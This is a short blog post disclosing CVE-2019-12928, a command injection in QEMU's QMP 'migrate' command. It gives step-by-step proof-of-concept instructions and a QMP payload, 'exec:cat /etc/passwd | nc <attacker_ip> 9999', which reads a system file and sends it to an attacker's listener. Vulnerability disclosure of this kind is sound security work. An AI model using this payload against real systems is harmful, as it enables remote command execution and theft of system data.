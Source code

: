 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Command Execution"
date: 2019-06-05
categories:
    - blog
keywords: "qemu, qmp, command execution"
---
```


The QMP `migrate` command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:<br>

```
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
```